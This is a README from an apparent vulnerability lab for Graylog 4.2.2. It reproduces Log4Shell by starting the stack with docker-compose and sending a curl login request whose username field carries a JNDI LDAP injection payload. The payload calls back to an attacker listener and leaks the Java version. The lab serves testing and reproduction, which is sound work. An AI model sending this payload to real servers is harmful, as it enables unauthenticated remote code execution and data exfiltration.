

# graylog

- Version: `4.2.2`
- Auth required: No

## details

Can be triggered on the login page.

This cURL request should do (where `host` is where [pwn.py](../../../pwn.py) is running with the `-k` flag):

```bash
curl 'http://localhost:9000/api/system/sessions' \
  -H 'X-Requested-By: XMLHttpRequest' \
  -H 'Content-Type: application/json' \
  -H 'Accept: application/json' \
  --data-raw '{"username":"${jndi:ldap://host:5456/${java:version}}","password":"123","host":"localhost:9000"}' 
```

## run

In this directory start the stack using `docker-compose`:

```bash
docker-compose up
```

## example


